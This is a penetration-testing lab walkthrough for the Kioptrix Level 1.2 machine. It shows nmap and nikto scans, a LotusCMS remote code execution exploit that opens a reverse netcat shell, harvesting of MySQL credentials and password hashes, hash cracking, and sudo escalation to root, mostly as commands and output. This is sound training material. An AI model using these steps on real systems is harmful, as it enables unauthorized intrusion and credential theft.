



# OSCP Vulnhub Set 1 - Kioptrix: Level 1.2 (#3)

lab link: http://ccmtlab.ccmt.home.arpa:8888/user/missions/boxes?uuid=55216f27-3ed8-47fe-a730-2f61fd896124

target ip: `10.101.85.13`

---

## Network Scanning

### nmap

scan all port.

```
nmap -p- 10.101.85.13
```

only 22 and 80 are open.
```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/03]
└─$ nmap -p- 10.101.85.13
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-17 21:58 -0400
Nmap scan report for ki0ptrix3.com (10.101.85.13)
Host is up (0.0023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.85 seconds
```

vulnerbality scan.

```
nmap --script vuln -p22,80 10.101.85.13
```

ssh and http are open.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/03]
└─$ nmap --script vuln -p22,80 10.101.85.13
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-17 22:04 -0400
Nmap scan report for ki0ptrix3.com (10.101.85.13)
Host is up (0.0085s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-sql-injection: ERROR: Script execution failed (use -d to debug)
| http-enum: 
|   /phpmyadmin/: phpMyAdmin
|   /cache/: Potentially interesting folder
|   /core/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /modules/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) php/5.2.4-2ubuntu5.6 with suhosin-patch'
|_  /style/: Potentially interesting folder
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=ki0ptrix3.com
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://ki0ptrix3.com:80/index.php?system=Admin
|     Form id: contactform
|     Form action: index.php?system=Admin&page=loginSubmit
|     
|     Path: http://ki0ptrix3.com:80/gallery/
|     Form id: 
|     Form action: login.php
|     
|     Path: http://ki0ptrix3.com:80/index.php?system=Blog&post=1281005380
|     Form id: commentform
|     Form action: 
|     
|     Path: http://ki0ptrix3.com:80/index.php?system=Admin&page=loginSubmit
|     Form id: contactform
|     Form action: index.php?system=Admin&page=loginSubmit
|     
|     Path: http://ki0ptrix3.com:80/gallery/index.php
|     Form id: 
|     Form action: login.php
|     
|     Path: http://ki0ptrix3.com:80/gallery/gadmin/
|     Form id: username
|_    Form action: index.php?task=signin
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-trace: TRACE is enabled

Nmap done: 1 IP address (1 host up) scanned in 318.64 seconds
```

next, nikto.

---

### nikto

use this.

```
nikto -h http://10.101.85.13 
```

the `/phpmyadmin` are interesting.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/03]
└─$ nikto -h http://10.101.85.13      
- Nikto v2.6.0
---------------------------------------------------------------------------
+ Target IP:          10.101.85.13
+ Target Hostname:    10.101.85.13
+ Target Port:        80
+ Platform:           Unknown
+ Start Time:         2026-05-17 22:06:46 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ ERROR: Failed to check for updates: 403
+ [999986] /: Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6.
+ [95] /: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ [750500] /icons/: Directory indexing found.
+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [600050] Apache/2.2.8 appears to be outdated (current is at least 2.4.66).
+ [600625] PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 8.5.1).
+ [999984] /favicon.ico: Server may leak inodes via ETags, header found with file /favicon.ico, inode: 631780, size: 23126, mtime: Fri Jun  5 15:22:00 2009. See: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ [013587] /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ [013587] /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ [013587] /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
+ [013587] /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
+ [013587] /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
+ [800262] /: PHP/5.2 - PHP 3/4/5 and 7.0 are End of Life products without support.
+ [999967] /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ [000434] /: HTTP TRACE method is active and replies which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ [001384] /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP Easter Eggs reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/
+ [001385] /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP Easter Egg reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/
+ [001386] /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP Easter Egg reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/
+ [001387] /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP Easter Egg reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/
+ [001795] /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ [003584] /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
^C    
```

i'll leave it for now, let's explore the site

---

### http explore

open the target ip site.

```
http://10.101.85.13
```

home page.



blog page.



login page, it's powered by `lotuscms`.



let's search the exploit in `metasploit`.

---

## Exploitation

### metasploit

use this command to search `lotuscms`.

```
msfconsole
search lotuscms
```

found one exploit.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/03]
└─$ msfconsole                                                                
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  

      .:okOOOkdc'           'cdkOOOko:.                                                                             
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.                                                                           
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:                                                                          
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'                                                                         
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo                                                                         
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx                                                                         
  lOOOOOOOO.         ;d;         ,OOOOOOOOl                                                                         
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.                                                                         
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc                                                                          
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo                                                                           
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl                                                                            
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;                                                                             
       .dOOo   .OOOOocccxOOOO.   xOOd.                                                                              
         ,kOl  .OOOOOOOOOOOOO. .dOk,                                                                                
           :kk;.OOOOOOOOOOOOO.cOk:                                                                                  
             ;kOOOOOOOOOOOOOOOk:                                                                                    
               ,xOOOOOOOOOOOx,                                                                                      
                 .lOOOOOOOl.                                                                                        
                    ,dOd,                                                                                           
                      .                                                                                             

       =[ metasploit v6.4.132-dev                               ]
+ -- --=[ 2,644 exploits - 1,334 auxiliary - 2,141 payloads     ]
+ -- --=[ 431 post - 49 encoders - 14 nops - 12 evasion         ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > search lotuscms

Matching Modules
================

   #  Name                              Disclosure Date  Rank       Check  Description
   -  ----                              ---------------  ----       -----  -----------
   0  exploit/multi/http/lcms_php_exec  2011-03-03       excellent  Yes    LotusCMS 3.0 eval() Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/lcms_php_exec
```

use it and show exploit required.

```
use 0
options
```

i need to set rhosts and change url.

```
msf > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(multi/http/lcms_php_exec) > options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported pro
                                       xies: socks5h, sapni, socks4, http, socks5
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/b
                                       asics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /lcms/           yes       URI
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.101.55.75     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


View the full module info with the info, or info -d command.
```

set rhosts, url and run.

```
set RHOSTS 10.101.85.13
set URI /
run
```

fail.

```
msf exploit(multi/http/lcms_php_exec) > set RHOSTS 10.101.85.13
RHOSTS => 10.101.85.13
msf exploit(multi/http/lcms_php_exec) > set URI /
URI => /
msf exploit(multi/http/lcms_php_exec) > run
[*] Started reverse TCP handler on 10.101.55.75:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Exploit completed, but no session was created.
```

i tried to fix this exploit module, but i couldn't, so i'll leave it for a while.

---

### github

because the previous module could be difficult to use, i found another module on `github` instead.

```
https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh
```

download it into `kali`.

```
wget https://raw.githubusercontent.com/Hood3dRob1n/LotusCMS-Exploit/refs/heads/master/lotusRCE.sh
```

change the permission and run the script.

```
chmod 777 lotusRCE.sh
./lotusRCE.sh
```

i got the usage.

```
USAGE: ./lotusRCE.sh target LotusCMS_path
EX: ./lotusRCE.sh 192.168.1.36 /lcms/
EX: ./lotusRCE.sh ki0ptrix3.com /
```

create listener on port `1234`.

```
rlwrap nc -lvp 1234
```

activate the script.

```
./lotusRCE.sh 10.101.85.13
10.101.55.75
1234
1
```

there seems to be no problem.

```
Path found, now to check for vuln....

</html>Hood3dRob1n
Regex found, site is vulnerable to PHP Code Injection!

About to try and inject reverse shell....
what IP to use?
10.101.55.75
What PORT?
1234

OK, open your local listener and choose the method for back connect: 
1) NetCat -e
2) NetCat /dev/tcp
3) NetCat Backpipe
4) NetCat FIFO
5) Exit
#? 1
```

back to listener, now i'm in.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/03]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
connect to [10.101.55.75] from ki0ptrix3.com [10.101.85.13] 48062
```

let's find the way to privilege escalation.

---

## Privilege Escalation

### data gathering

spawn `shell`.

```
python -c 'import pty;pty.spawn("/bin/bash");'
```

now, i got `shell`.

```
python -c 'import pty;pty.spawn("/bin/bash");'
www-data@Kioptrix3:/home/www/kioptrix3.com$ 
```

verify user.

```
whoami
```

i'm `www-data`.

```
www-data@Kioptrix3:/home/www/kioptrix3.com$ whoami
whoami
www-data
```

there are three user.

```
www-data@Kioptrix3:/home$ ls
ls
dreg  loneferret  www
```

from the `CompanyPolicy.README`, i can use `sudo ht` for editing, creating and viewing files.

```
www-data@Kioptrix3:/home/loneferret$ cat CompanyPolicy.README
cat CompanyPolicy.README
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
```

i can't use it, i don't have password for `www-data`.

```
www-data@Kioptrix3:/home/loneferret$ sudo ht
sudo ht
[sudo] password for www-data: 
```

from the `gconfig.php`, i found `mysql` credential.

```
www-data@Kioptrix3:/home/www/kioptrix3.com/gallery$ cat gconfig.php
cat gconfig.php
<?php
        error_reporting(0);
        /*
                A sample Gallarific configuration file. You should edit
                the installer details below and save this file as gconfig.php
                Do not modify anything else if you don't know what it is.
        */

        // Installer Details -----------------------------------------------

        // Enter the full HTTP path to your Gallarific folder below,
        // such as http://www.yoursite.com/gallery
        // Do NOT include a trailing forward slash

        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";

        // Setting Details -------------------------------------------------

if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {
                echo("A connection to the database couldn't be established: " . mysql_error());
                die();
}else {
        if(!$g_mysql_d = @mysql_select_db($GLOBALS["gallarific_mysql_database"], $g_mysql_c)) {
                echo("The Gallarific database couldn't be opened: " . mysql_error());
                die();
        }else {
                $settings=mysql_query("select * from gallarific_settings");
                if(mysql_num_rows($settings)!=0){
                        while($data=mysql_fetch_array($settings)){
                                $GLOBALS["{$data['settings_name']}"]=$data['settings_value'];
                        }
                }

        }
}

?>
```

let's logging in.

```
mysql -uroot -pfuckeyou
```

i found hash password from `dev_accounts` in `gallery`.

```
mysql> use gallery; 
use gallery; 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         | 
| gallarific_comments  | 
| gallarific_galleries | 
| gallarific_photos    | 
| gallarific_settings  | 
| gallarific_stats     | 
| gallarific_users     | 
+----------------------+
7 rows in set (0.00 sec)

mysql> select * from dev_accounts;
select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
+----+------------+----------------------------------+
2 rows in set (0.10 sec)
```

i decode it in `https://crackstation.net/`.

```
username : password : decoded password
dreg : 0d3eccfb887aabd50f243b3f155c0f85 : Mast3r
loneferret : 5badcaf789d3d1d09794d8f021f40f0e : starwars
```

try to log in to `loneferret`.

```
su loneferret
starwars
```

success.

```
www-data@Kioptrix3:/$ su loneferret
su loneferret
Password: starwars

loneferret@Kioptrix3:/$
```

verify sudo permission.

```
sudo -l
```

that's great, i have all permission.

```
loneferret@Kioptrix3:/$ sudo -l
sudo -l
[sudo] password for loneferret: starwars

User loneferret may run the following commands on this host:
    (ALL) ALL
```

try to change to root.

```
sudo su -
```

now i'm root.

```
loneferret@Kioptrix3:/$ sudo su -
sudo su -
root@Kioptrix3:~#
```